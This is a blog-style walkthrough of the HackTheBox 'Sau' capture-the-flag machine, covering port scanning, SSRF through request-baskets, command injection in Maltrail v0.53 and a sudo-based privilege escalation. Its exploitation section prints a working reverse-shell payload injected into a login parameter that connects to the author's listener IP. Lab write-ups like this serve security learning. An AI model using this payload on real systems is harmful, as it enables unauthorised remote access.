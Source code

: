 ```yaml
---
layout: post
status: publish
published: true
title: Sau Machine 
author: horus
categories: [CTF]
tags: [CTF,HackTheBox,Easy]
comments: true
image: Sau.png
---
```


###     …  بِسْمِ اللَّـهِ الرَّحْمَـٰنِ الرَّحِيمِ  …


## Introduction : 
Hello, I hope you are doing well. HackTheBox has published a machine called `Sau`. It is an easy machine , and we will solve it today together. I hope you enjoy the walkthrough.

DIFFICULTY : `Easy` 

OPERATING SYSTEM : `Linux`

IP:`10.129.22.167`

## Improved Topics : 
- Enumeration
- ssrf

## Used tools : 
- nmap

---
## Enumeration : 

The first thing that i did it is scanning the machine using nmap to discover the open ports using this command `nmap -v -sC -sV -oA nmap.txt 10.129.22.167` i have found three ports are opened 
```
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
55555/tcp open     unknown
```
i tried to visit the `80` port but it didn't give me a response , so i tried to visit the `55555` port and this interface showed up ![](/assets/images/Pasted%20image%2020230710054010.png)
i tried to search for CVES for `requests-baskets` and i didn't found any thing .

---
## Exploitation: 
i started testing the `create basket` function , i have entered a name then clicked create then i access the basket that i have created ![](/assets/images/Pasted%20image%2020230710091101.png)
i opened the configuration settings and i discovered that i can redirect the incoming request to the basket to another address so itried to put the local address with the port `80` that we discovered it early and cannot access it  ![](/assets/images/Pasted%20image%2020230710091406.png)
then i visited the basket link and it redirected me to the site with the port `80` .
the site was running by product called **M**altrail (v**0.53**) and have a login page 
![](/assets/images/Pasted%20image%2020230710101310.png)
then i searched for CVES for this product version and i have found that it is vulnerable with a command injection Vulnerability (https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)

after i had read the report i copied the payload the edit on it to give me the reverse shell and this was the payload :
```sh
;`export RHOST="10.10.16.28";export RPORT=6666;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
```
i have tried many payloads to get the reverse shell from this site [https://www.revshells.com/ ]
bug nothing worked for me except this python3 payload , then i putted this above payload in the username parameter and prepared my reverse shell receiver on my machine using this command `pwncat-cs -lp 4444` pwncat is very good tool to do this job 

after i have submitted the request i received the connection back from the targeted machine ![](/assets/images/Pasted%20image%2020230710095716.png)
then i have got the user flag 
![](/assets/images/Pasted%20image%2020230710095824.png)

---
## Privilege Escalation : 
the first thing i did it after i have gained the shell is trying to see what is the commands that i can execute by root privilege , to see this commands we need to execute this command `sudo -l`
![](/assets/images/Pasted%20image%2020230710100146.png)
i searched for this on google and i have found this tow articles 
(https://www.cybersecurity-help.cz/vdb/SB2023032869)
(https://medium.com/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7)
i had read the articles , then i got in the shell to try to exploit this cve 
![](/assets/images/Pasted%20image%2020230710100646.png)
....We have got the root flag ladies and gentlemen .  
i hope you have enjoyed the Walkthrough